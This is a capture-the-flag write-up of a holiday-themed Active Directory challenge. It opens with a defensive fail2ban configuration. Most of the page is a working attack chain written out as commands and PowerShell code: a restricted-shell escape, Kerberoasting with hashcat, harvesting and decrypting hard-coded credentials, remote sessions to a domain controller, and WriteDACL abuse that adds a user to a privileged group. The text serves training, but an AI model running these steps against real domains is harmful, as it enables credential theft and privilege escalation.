Kerberoasting on an Open Fire
|
Challenge : Obtain the secret sleigh research document from a host on the Elf University domain. What is the first secret ingredient Santa urges each elf and reindeer to consider for a wonderful holiday season? Start by registering as a student on the ElfU Portal. Find Eve Snowshoes in Santa's office for hints. |
||
|
Difficulty Level : |
Location : Santa’s Office |
Elf/Troll : Eve Snowshoes |
|  |
Please note this objective was not near Eve Snowshoes but since they provided such cool hints, I wanted to keep this elf here. Hints from Eve Snowshoes : (Because we solved their terminal challenge “HoHo…No”)
https://register.elfu.org/register |
We first solve the HoHo..No terminal challenge from Eve Snowshoes.
HoHo..No Terminal Challenge
This terminal challenge needs us to identify the malicious IP addresses in the logs and add them to the naughty list so It could be blocked using fail2ban.
Thre is an excellent talk by Mr. Andy Smith on Fail2ban whicih immensely helped in solving this terminal challenge. 
First find all the patterns of log entries in the/var/log/hohono.log
Exclude all the successful logins or valid heartbeats and put other in ashish.log.
cat /var/log/hohono.log | grep -v -e "success" -e "Valid heartbeat" > ashish.log
Replace all the IP addresses in ashish.log with naughty_ip
sed -i -e 's/[0-9]\{1,3\}\.[0-9]\{1,3\}\.[0-9]\{1,3\}\.[0-9]\{1,3\}/naughty_ip/g' ashish.log
Get only the messages
cat ashish.log | cut -d ' ' -f3- | sort | uniq
Sample Unique log entries

Unique patterns of the log entries
Failed login from
for user
Invalid heartbeat '' from
Login fromrejected due to unknown user name
sent a malformed request
Now we can create the custom jail and then filter and actions for the custom jail.
Creating the custom jail
nano /etc/fail2ban/jail.d/my_jail.conf
Below would be the content of the my_jail.conf
[my_jail]
enabled = true
logpath = /var/log/hohono.log
findtime = 60m
maxretry = 10
bantime = 30m
filter = my_filter
action = my_action
Creating the custom filter
nano /etc/fail2ban/filter.d/my_filter.conf
Below would be the content of the my_filter.conf
[Definition]
failregex = <HOST> sent a malformed request$
Failed login from <HOST>
Login from <HOST> rejected due to unknown user name$
Invalid heartbeat \S+ from <HOST>$
Creating the custom action
nano /etc/fail2ban/filter.d/my_action.conf
Below would be the content of the my_action.conf
Please note this is where we add the IP addresses we have identified to get added to the naughtly list to ban using fail2ban.
[Definition]
actionban = /root/naughtylist add <ip>
actionunban = /root/naughtylist add <ip>
Restart the fail2ban service
service fail2ban restart
Refresh the naughtylist
./naughtylist refresh
Achievement unlocked :

Now we go over to objective#8 Kerberoasting
Registration and SSH to elfu.local domain
We register on https://register.elfu.org/register using a custom domain.
We are provided a domain user named rflkkildwi and the password for it.
SSH to grades.elfu.local as rflkkildwi :

We see the below menu:

We escape the SSD using Ctrl+D.
Once in Python, use below to spawn an interactive bash shell.
import pty; pty.spawn("/bin/bash")
Conduct reconnaissance :
Username and Hostname :

Local IP :

Get the neighbours. There are 4 of them.

Conduct nmap scan on top 10 ports on each of those hosts to know what services are running there.
Looks like 172.17.0.4 and 172.17.0.5 are running SMB and may have shared folders.
| nmap -top-ports 10 172.17.0.4 | nmap -top-ports 10 172.17.0.5 |
|---|---|
 |
 |
We look for shared folders on 172.17.0.4 and 172.17.0.5
Looks like 172.17.0.5 has two shared folders but the user rfkkildwi does not have access on these shares
- \\172.17.0.5 \elfu_svc_shr
- \\172.17.0.5 \research_dep
Request TGS ticket for the users in Hashcat format. The ticket is encrypted with account’s password so it can be brute forced offline. 
Cracking the TGS hash for elfu.local\elfu_svc to get plaintext password
Downloading the OneRuleToRuleThemAll.rule
We have the TGS hash for elfu_svc form previous step.
We copy the has to local kali machine as hash.txt.
We will download OneRuleToRuleThemAll.rule from here.
wget https://raw.githubusercontent.com/NotSoSecure/password_cracking_rules/master/OneRuleToRuleThemAll.rule > OneRuleToRuleThemAll.rule
Generate the word list
Generate the word list using CeWL with –with-number option so it does not ignore digits.
cewl --with-numbers https://register.elfu.org/register > wordlist.txt
Crack the TGS hash using Hashcat
Now we use the OneRuleToRuleThemAll.rule and wordlist.txt with Hashcat.
hashcat -m 13100 -a 0 hash.txt --potfile-disable -r OneRuleToRuleThemAll.rule --force -O -w 4 --opencl-device-types 1,2 wordlist.txt
We have the plaintext password for elfu_svc.
Snow2021!

Enumerate the file share "elfu_svc_shr" and get hard coded creds for remote_elf in the script
smbclient \\\\172.17.0.5\\elfu_svc_shr -U=elfu_svc
Enter the password “Snow2021!” (Without quotes).
And now we are able to enumerate all the files.

Check for any hard coded passwords.
#Set the prompt Off
prompt OFF
#Download all the files
mget *
#Exit out of the smbclient
exit
#Grep for ConvertTo-SecureString in all the files since you use that on plain text creds to convert to # secure strings
grep -C 2 ConvertTo-SecureString *

Looks like GetProcessInfo.ps1 has the hard coded credentials for another domain user named elfu.local\remote_elfu for a host 10.128.1.53.
The credentials look encrypted though. So, we may to convert that to plain text.

Get the password for the elfu.local\remote_elf
Run this in the terminal PowerShell 7
$key = (2,3,1,6,2,8,9,9,4,3,4,5,6,8,7,7)
$SecStringPassword = "76492d1116743f0423413b16050a5345MgB8AGcAcQBmAEIAMgBiAHUAMwA5AGIAbQBuAGwAdQAwAEIATgAwAEoAWQBuAGcAPQA9AHwANgA5ADgAMQA1ADIANABmAGIAMAA1AGQAOQA0AGMANQBlADYAZAA2ADEAMgA3AGIANwAxAGUAZgA2AGYAOQBiAGYAMwBjADEAYwA5AGQANABlAGMAZAA1ADUAZAAxADUANwAxADMAYwA0ADUAMwAwAGQANQA5ADEAYQBlADYAZAAzADUAMAA3AGIAYwA2AGEANQAxADAAZAA2ADcANwBlAGUAZQBlADcAMABjAGUANQAxADEANgA5ADQANwA2AGEA"
$aPass = $SecStringPassword | ConvertTo-SecureString -Key $key
ConvertFrom-SecureString -SecureString $aPass -AsPlainText

We have the password for elfu.local\remote_elf:
A1d655f7f5d98b10!
Logon To Domain controller (DC01) using elfu.local\remote_elf
At this point we have the password for elfu.local\remote_elf which is A1d655f7f5d98b10!.
But this user also does not have access to \172.17.0.5\research_dep.
So, we may need to escalate privileges of our user (rflkkildwi) and let's see if we can leverage elfu.local\remote_elf for that.
Let’s login to the host 10.128.1.53 using elfu.local\remote_elf.
First enter into PowerShell
pwsh

Get the PSCredential object using the secure string.
# Setting up the creds
$SecStringPassword = "76492d1116743f0423413b16050a5345MgB8AGcAcQBmAEIAMgBiAHUAMwA5AGIAbQBuAGwAdQAwAEIATgAwAEoAWQBuAGcAPQA9AHwANgA5ADgAMQA1ADIANABmAGIAMAA1AGQAOQA0AGMANQBlADYAZAA2ADEAMgA3AGIANwAxAGUAZgA2AGYAOQBiAGYAMwBjADEAYwA5AGQANABlAGMAZAA1ADUAZAAxADUANwAxADMAYwA0ADUAMwAwAGQANQA5ADEAYQBlADYAZAAzADUAMAA3AGIAYwA2AGEANQAxADAAZAA2ADcANwBlAGUAZQBlADcAMABjAGUANQAxADEANgA5ADQANwA2AGEA"
$aPass = $SecStringPassword | ConvertTo-SecureString -Key 2,3,1,6,2,8,9,9,4,3,4,5,6,8,7,7
$aCred = New-Object System.Management.Automation.PSCredential -ArgumentList ("elfu.local\remote_elf", $aPass)

Using the creds above, create a new PowerShell session on 10.128.1.53
New-PSSession -Computer 10.128.1.53 -Credential $aCred
A new PowerShell session is created with id 1.

We enter the PowerShell session of 10.128.1.53 with name DC01 which looks like a domain controller when examining with Get-ADDomainController.
Enter-PSSession -Id 1
Get-ADDomainController -Discover -domain "elfu.local" -Service "PrimaryDC","TimeService"

Privilege Escalation
This involves escalating privileges of our user "rflkkildwi".
We do this by adding this user to "Research Department" AD group leveraging elfu.local\remote_elf.
Find which AD group the user elfu.local\remote_elf has writeDACL permission.
Tried with domain admins. This does not have writeDACL permission for remote_elf.
$ADSI = [ADSI]"LDAP://CN=Domain Admins,CN=Users,DC=elfu,DC=local"
$ADSI.psbase.ObjectSecurity.GetAccessRules($true,$true,[Security.Principal.NTAccount])
So, we numerate all the groups to see if something interesting come up.
Get-ADGroup to get all AD groups :

This “Research Department” group looks interesting :

We see all the Access rules for Research Department and we can see remote_elf has writeDACL permission on that group.
$ADSI = [ADSI]"LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
$ADSI.psbase.ObjectSecurity.GetAccessRules($true,$true,[Security.Principal.NTAccount])

Using remote_elf, add "GenericAll" permission for the user "rflkkildwi" to the identified AD group.
Add-Type -AssemblyName System.DirectoryServices
$ldapConnString = "LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
$username = "rflkkildwi"
$nullGUID = [guid]'00000000-0000-0000-0000-000000000000'
$propGUID = [guid]'00000000-0000-0000-0000-000000000000'
$IdentityReference = (New-Object System.Security.Principal.NTAccount("elfu.local\$username")).Translate([System.Security.Principal.SecurityIdentifier])
$inheritanceType = [System.DirectoryServices.ActiveDirectorySecurityInheritance]::None
$ACE = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $IdentityReference, ([System.DirectoryServices.ActiveDirectoryRights] "GenericAll"), ([System.Security.AccessControl.AccessControlType] "Allow"), $propGUID, $inheritanceType, $nullGUID
$domainDirEntry = New-Object System.DirectoryServices.DirectoryEntry $ldapConnString
$secOptions = $domainDirEntry.get_Options()
$secOptions.SecurityMasks = [System.DirectoryServices.SecurityMasks]::Dacl
$domainDirEntry.RefreshCache()
$domainDirEntry.get_ObjectSecurity().AddAccessRule($ACE)
$domainDirEntry.CommitChanges()
$domainDirEntry.dispose()
We can verify if the GenericAll permission has been added for user "rflkkildwi" for AD group "Research Department"
$ADSI = [ADSI]"LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
$ADSI.psbase.ObjectSecurity.GetAccessRules($true,$true,[Security.Principal.NTAccount])

Using remote_elf, add user "rflkkildwi" to the identified AD group.
Add-Type -AssemblyName System.DirectoryServices
$ldapConnString = "LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
$username = "rflkkildwi"
$password = "Pvwevsviq#"
$domainDirEntry = New-Object System.DirectoryServices.DirectoryEntry $ldapConnString, $username, $password
$user = New-Object System.Security.Principal.NTAccount("elfu.local\$username")
$sid=$user.Translate([System.Security.Principal.SecurityIdentifier])
$b=New-Object byte[] $sid.BinaryLength
$sid.GetBinaryForm($b,0)
$hexSID=[BitConverter]::ToString($b).Replace('-','')
$domainDirEntry.Add("LDAP://<SID=$hexSID>")
$domainDirEntry.CommitChanges()
$domainDirEntry.dispose()
We can verify if the user "rflkkildwi" to the "Research Department" group.
Get-ADGroupMember -Identity 'ResearchDepartment' | Where-Object {$_.name -eq "rflkkildwi"}

Access the secret document
At this point rflkkildwi is added to the "Research Department" group.
So now we can access the document in the share '\172.17.0.5\research_dep' using "rflkkildwi" .
smbclient '\\172.17.0.5\research_dep'

Also can download the PDF from the share to the grade.elfu.local.

Change the shell to bin/bash on the grades.elfu.org session
Enter chsh to change your shell to /bin/bash.
chsh

From local kali box download the document from the grades.elfu.org.

Open the PDF locally to see the 1st secret ingredient – kindness
We use that as the answer for the objective and now the objective is completed.
